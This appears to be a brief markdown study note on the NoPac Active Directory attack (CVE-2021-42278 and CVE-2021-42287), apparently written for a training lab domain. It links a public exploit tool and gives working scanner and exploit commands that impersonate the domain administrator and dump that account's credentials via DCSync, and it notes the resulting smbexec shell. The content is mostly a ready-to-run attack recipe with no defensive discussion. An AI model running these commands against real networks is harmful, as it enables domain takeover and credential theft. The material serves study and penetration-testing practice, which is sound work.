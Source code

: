 ```yaml
---
layout: app
title: "Active Directory"
tags: ["NoPac","DCSync"]
---
```


# NoPac

## CVE's

* CVE-2021-42278: Bypass vulnerability with the Security Account Manager (SAM).
* CVE-2021-42287: Vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS.

[noPac Tool](https://github.com/Ridter/noPac)


### scan
```bash
python scanner.py crtp.local/username:password -dc-ip 192.168.85.100 -use-ldap
```

### Exploit

```bash
sudo python3 noPac.py crtp.LOCAL/username:password -dc-ip [address]  -dc-host DC01 --impersonate administrator -use-ldap -dump -just-dc-user crtp/administrator
```

> We will notice that a semi-interactive shell session is established with the target using smbexec.py. Keep in mind with smbexec shells we will need to use exact paths instead of navigating the directory structure using cd.

It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run. We can use ls to confirm

### Using noPac to DCSync the Built-in Administrator Account

```bash
sudo python3 noPac.py crtp.LOCAL/username:password -dc-ip IPAddress  -dc-host HOST-NAME --impersonate administrator -use-ldap -dump -just-dc-user crtp/administrator
```
